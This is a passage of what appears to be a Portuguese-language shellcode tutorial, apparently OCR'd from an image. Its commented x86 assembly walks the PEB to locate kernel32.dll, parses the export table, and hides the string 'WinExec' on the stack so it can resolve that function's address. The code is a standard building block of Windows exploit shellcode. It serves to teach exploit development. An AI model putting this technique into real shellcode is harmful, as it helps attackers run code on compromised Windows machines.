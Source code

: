 ```nasm

    xor ecx, ecx            ;zerando o registrador para ser usado em comparações de string
    mov esi, esp            ;movendo WinExec da stack para esi
    mov edi, [ebp-4]        ;movendo o endereço base da Export Name Pointer Table para edi, edi = 0x757957c4
    mov edi, [edi + ebx*4]  ;endereço base da Export Name Pointer Table + valor ordinal * 4, edi = RVA do função buscada pelo nome
    add edi, eax            ;adicionando o endereço base da kernel32 ao RVA da função
    add cx, 4               ;movendo o comprimento da string WinExec para cx: WinExec = 7 bytes = 4 WORD
    repe cmpsw              ;compara o numero de WORDS no registrador cx da esquerda para direita com edi e esi, armazena a saída na flag ZF
    jz findaddr             ;pula para findaddr e quebra o loop se a flag ZE for TRUE
    inc ebx                 ;incrementa o contador que contém o ordinal
    loop findproc           ;loop no findproc
findaddr:
```

Adicionando este trecho ao anterior, temos o código:

```nasm
global _start

section .text

_start:

    xor eax, eax            ;zerando o registrador
    mov eax, [fs:0x30]      ;movendo o offset da PEB de fs (File Segment) para eax
    mov eax, [eax + 0x0c]   ;movendo o offset da LDR (PEB + 0x00c) para eax
    mov eax, [eax + 0x14]   ;movendo o offset da InMemoryOrderModuleList (LDR + 0x014) para eax
    mov eax, [eax]          ;carregando o endereço efetivo do primeiro modulo - o executavel em si
    mov eax, [eax]          ;carregando o endereço efetivo do segundo modulo - ntdll.dll
    mov eax, [eax + 0x10]   ;carregando o endereço base do terceiro modulo - kernel32.dll

    ;enviando nome da função para stack
    xor edx, edx                ;zerando o registrador
    push 0x4e636578             ;movendo Ncex para stack
    sub word [esp + 0x3], 0x4e  ;removendo o "N"
    push 0x456e6957             ;movendo EniW para stack
    ;encontrando o endereço da Export Table e armazenando em edx
    mov edx, [eax + 0x3c]       ;conteudo de 0x3c é f8 e foi movido para edx
    add edx, eax                ;adicionado o endereço base da kernel32 a f8, edx = 0x757000f8
    mov edx, [edx + 0x78]       ;adicionado 0x78 (170 - f8) para obter o RVA de Image Export Directory, edx = 0x93df0
    add edx, eax                ;adicionado o endereço base da kernel32 para obter o endereço base de Image Export Directory, edx = 0x75793df0
    ;encontrando o endereço da Export Name Pointer table e armazenando em ecx
    mov ecx, [edx + 0x20]       ;adicionadno 0x20 a 0x75793df0 para obter o RVA da Export Name Pointer Table, ecx = 0x957c4
    add ecx, eax                ;adicionado o endereço base da kernel32 para obter o endereço base de Export Name Pointer Table, ecx = 0x757957c4
    mov [ebp-4], ecx            ;movendo o endereço base de Export Name Pointer Table para a variavel [ebp-4]
    ;encontrando o endereço de Export Address table e armazenando em edx
    mov edx, [edx + 0x1c]       ;adicionando 0x1c a 0x75793df0 para obter o RVA da Export Address Table, edx = 0x93e18
    add edx, eax                ;adicionado o endereço base da kernel32 para obter o endereço base de Export Address Table, edx = 0x75793e18

;encontrando o endereço da WinExec na kernel32.dll com loop
    xor ebx, ebx                    ;zerando o registrador para uso no loop
findproc:

```